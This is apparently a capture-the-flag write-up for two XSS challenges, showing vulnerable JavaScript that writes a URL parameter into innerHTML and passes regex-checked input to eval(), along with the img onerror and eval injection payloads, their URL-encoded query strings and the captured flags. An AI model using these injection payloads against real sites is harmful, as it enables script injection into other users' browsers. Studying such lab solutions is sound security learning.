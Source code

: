 ```yaml
---
ai_date: '2025-04-27 05:26:27'
ai_summary: XSS exploitation using `img.onerror` in the first challenge and regex-based
  `eval()` in the second challenge.
ai_tags:
- xss
- regex
- eval
created: 2025-03-01T14:15
points: 100
solves: 22
updated: 2025-03-18T02:31
---
```


## XSS 1

```js
window.onload = () => {
	const urlParams = new URLSearchParams(window.location.search);
	let helloParam = urlParams.get('hello');
	if (!helloParam) {
		helloParam = '@Hack 2025'; // Default value
	}
	document.getElementById('hello').innerHTML = helloParam;
};
```

To exploit this we simply use `img.onerror`.

```html
<img src=0 onerror=console('I_FOUND_AN_XSS!!!')>
```

```
hello=%3Cimg%20src=0%20onerror=console.log(%22I_FOUND_AN_XSS!!!%22)%3E
```

```flag
ATHACKCTF{0xAAY0U_DID_FIND_AN_X55_HA0xFFHAHA}
```

## XSS 2

```js
function isValidMathExpression(input) {
	const regex = /^(.+[\+,\-,\*,\/].+)$/gm;
	return regex.test(input);
}
```

We just need to match the regex and the url param will be `eval()`ed.

```js
console.log('I_FOUND_AN_XSS!!!');-2
```

```
display=console.log(%22I_FOUND_AN_XSS!!!%22);-2
```

```flag
ATHACKCTF{R3g3X5S_IS_N0T_EN0uGH_0x7F}
```